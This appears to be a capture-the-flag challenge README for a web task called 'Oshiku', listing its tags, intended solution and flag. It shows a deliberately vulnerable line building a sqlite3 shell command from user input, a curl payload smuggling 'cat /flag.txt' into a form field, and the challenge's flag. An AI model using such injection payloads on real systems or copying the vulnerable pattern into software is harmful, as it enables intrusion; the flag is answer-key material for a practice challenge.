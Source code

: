 # Oshiku

Author: VascoZ

## Description

Oshiku Satu JKT48

## Requirements

None

## Sources

-

## Tags

- Command Injection , JWT Crack

## Exploit

- JWT-CRACK to access admin only page
- Command Injection (into a prepared sql statement) query = 'sqlite3 database.db "SELECT biography FROM oshi WHERE name=\'' + str(name) +'\'\"'
exploit : curl -X POST -d "oshi_name=freya\"%20;%20cat%20/flag.txt;echo%20\"" (url)



## Flag

```
WRECKIT50{oshikucumansatuk0k_satujkt}
```

## connection



## Severity
HARD


